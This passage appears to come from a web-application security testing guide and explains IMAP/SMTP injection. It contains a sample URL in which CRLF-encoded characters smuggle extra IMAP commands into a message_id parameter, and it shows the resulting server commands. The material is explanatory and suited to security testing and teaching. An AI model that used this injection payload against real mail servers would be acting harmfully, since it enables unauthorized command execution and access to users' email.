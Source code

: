In this scenario, the IMAP injection structure would be:
```
http://<webmail>/read_email.php?message_id=4791 BODY[HEADER]%0d%0aV100 CAPABILITY%0d%0aV101 FETCH 4791
```


Which would generate the following commands:
```
???? FETCH 4791 BODY[HEADER]
V100 CAPABILITY
V101 FETCH 4791 BODY[HEADER]
```

where:
```
Header = 4791 BODY[HEADER]
Body   = %0d%0aV100 CAPABILITY%0d%0a
Footer = V101 FETCH 4791
```
<br>

**Result Expected:**<br>
* Arbitrary IMAP/SMTP command injection
<br>

### References
**Whitepapers**<br>
* RFC 0821 “Simple Mail Transfer Protocol”.
* RFC 3501 “Internet Message Access Protocol - Version 4rev1”.
* Vicente Aguilera Díaz: “MX Injection: Capturing and Exploiting Hidden Mail Servers" - <u>http://www.webappsec.org/projects/articles/121106.pdf</u>
